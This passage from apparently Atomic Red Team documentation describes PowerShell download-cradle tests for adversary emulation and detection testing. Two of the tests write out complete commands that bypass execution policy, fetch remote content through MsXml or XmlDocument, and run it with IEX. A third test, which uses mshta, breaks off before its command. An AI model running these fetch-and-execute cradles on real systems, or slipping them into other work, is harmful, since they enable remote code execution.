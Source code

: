 Powershell MsXml COM object. Not proxy aware, removing cache although does not appear to write to those locations. Upon execution, "Download Cradle test success!" will be displayed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows

**auto_generated_guid:** 388a7340-dbc1-4c9d-8e59-b75ad8c6d5da

#### Inputs:

| Name | Description               | Type | Default Value                                                                                       |
| ---- | ------------------------- | ---- | --------------------------------------------------------------------------------------------------- |
| url  | url of payload to execute | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1 |

#### Attack Commands: Run with `command_prompt`!

```cmd
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

<br/>
<br/>

## Atomic Test #8 - Powershell XML requests

Powershell xml download request. Upon execution, "Download Cradle test success!" will be dispalyed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows

**auto_generated_guid:** 4396927f-e503-427b-b023-31049b9b09a6

#### Inputs:

| Name | Description               | Type | Default Value                                                                                       |
| ---- | ------------------------- | ---- | --------------------------------------------------------------------------------------------------- |
| url  | url of payload to execute | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.xml |

#### Attack Commands: Run with `command_prompt`!

```cmd
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```

<br/>
<br/>

## Atomic Test #9 - Powershell invoke mshta.exe download

Powershell invoke mshta to download payload. Upon execution, a new PowerShell window will be opened which will display "Download Cradle test success!".
